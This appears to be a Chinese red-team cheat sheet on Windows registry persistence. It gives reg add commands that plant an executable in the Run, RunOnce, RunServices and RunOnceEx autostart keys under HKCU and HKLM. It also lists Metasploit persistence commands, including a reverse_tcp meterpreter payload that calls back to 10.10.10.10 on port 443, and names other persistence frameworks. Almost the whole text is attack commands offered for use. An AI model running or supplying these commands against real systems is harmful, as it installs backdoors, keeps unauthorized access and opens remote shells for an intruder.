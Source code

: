 # 注册表执行后门

> ### 命令行
> ```powershell
> ##当前用户HKCU
> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v test /t REG_SZ /d "C:\test.exe" #Run键
> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v test /t REG_SZ /d "C:\test.exe" #RunOnce键
> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices" /v test /t REG_SZ /d "C:\test.exe" #RunServices键
> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v test /t REG_SZ /d "C:\test.exe" #RunServicesOnce键
> ##本地计算机HKLM
> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v test /t REG_SZ /d "C:\test.exe" #Run键
> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v test /t REG_SZ /d "C:\test.exe" #RunOnce键
> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunServices" /v test /t REG_SZ /d "C:\test.exe" #RunServices键
> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v test /t REG_SZ /d "C:\test.exe" #RunServicesOnce键
> ##RunonceEX(admin)
> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v test /t REG_SZ /d "C:\test.exe"
> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v test /t REG_SZ /d "C:\test.exe"
> ```

> ### Metasploit
> ```bash
> ##metesploit生成vbs脚本并创建注册表
> run persistence -U -P windows/x64/metepreter/reverse_tcp -i 5 -p 443 -r 10.10.10.10 
> ##persistence模块
> use post/windows/manage/persistence_exe
> set rexepath /tmp/test.exe
> set session 2
> set startup user ##user=>HKLU或者system=>HKLM
> set localexepath C:\\tmp
> run
> ```

> ### 其他平台
> SharPersist  
> PoshC2  
> Empire  